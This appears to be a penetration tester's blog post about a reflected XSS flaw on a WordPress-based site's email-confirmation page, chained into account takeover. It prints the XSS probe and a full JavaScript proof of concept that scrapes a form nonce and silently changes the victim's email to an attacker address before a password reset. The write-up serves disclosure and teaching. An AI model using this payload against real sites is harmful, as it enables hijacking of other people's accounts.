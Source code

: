 ```yaml
---
layout: '@/templates/BasePost.astro'
title: Reflected XSS to Account Takeover
description: A reflected XSS vulnerability allowed attackers to change user email addresses without verification, enabling unauthorized account access via password resets.
pubDate: 2024-05-16T00:00:00Z
imgSrc: '/src/images/xss.png'
imgAlt: 'Image post'
author: "Max"
---
```


# What Happened
During a recent penetration test, I discovered a significant security flaw in an application that allowed for the manipulation of user email addresses through a reflected Cross-Site Scripting (XSS) vulnerability. This vulnerability made it possible for attackers to change a user’s email address to one they control, subsequently allowing them to reset the password and gain unauthorized access to the user’s account.

---

# Identifying the Vulnerability
During the pentest, I noticed that there was a feature for resetting the email address. However, when trying to change it, there was no security mechanism verifying that the change was actually initiated by the user of that account. Normally, there’s an extra step where the user must input their password or any other identification method.

So, the first thing that came to mind was trying to carry out a CSRF attack, where I force the user to change their email to mine. This would allow me to use the regular “forgot password” function from the website. Then I would input the email address that was set in the victim’s account, receive the reset email, and change the password to a desired one. However, I quickly realized that WordPress securely handles cookies in this application, so I wasn’t able to take that route. The next idea was to find an XSS vulnerability.

## Finding XSS
Luckily, during my research, I came across a reflected XSS in the application:

```js
/login/confirmmail.php?email=<img/src/onerror=print()>
```
## Creating the Exploit Script
The next step was to create a script that would automatically change the email address in the user’s settings. However, I quickly noticed that WordPress added a nonce to each form request which handles the email change. So, the next step was to first fetch the nonce and then use that nonce in the change email form request.

## The Proof of Concept
```js
fetch('https://example.com/edit-account/').then(response => response.text()).then(html => {
    // Fetch the nonce from vulnerable endpoint
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var nonce = doc.getElementById('save-account-details-nonce').value;
    console.log(nonce);

    // Change email
    fetch('https://example.com/edit-account/', { 
        method: 'POST',
        // Include Cookies
        credentials: 'include', 
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `first_name=Majix
        &last_name=Majix
        &display_name=Majix
        &email=hacker@mail.com
        &password_current=
        &password_1=
        &password_2=
        &save-account-details-nonce=${nonce}`
    })
    .then(response => {
        if (response.ok) {
            console.log("Done!");
        } else {
            console.log("Something went wrong..");
        }
    });
});
```

The password parameters can be left empty, since the application only uses those, when a user wants to change their password via the UI on the website.

>password_current=\
 password_1=\
 password_2=

Here’s a step-by-step breakdown of how the attack works:

1. `Fetch the Nonce`
The attacker sends a request to the vulnerable endpoint to retrieve the nonce.
The response is parsed, and the nonce is extracted from the HTML.
2. `Change the Email` 
With the nonce in hand, the attacker sends a POST request to the endpoint responsible for changing account details.
This request includes the nonce and the attacker’s desired email address.
The credentials parameter ensures cookies are included, maintaining the session context.

So after sending this script via the reflected XSS vulnerabillity to a victim, I was successfully changing their mail to a desired one. Now I was able to use the password reset function, get the mail with a reset link, change the password, and finally log into the account.

---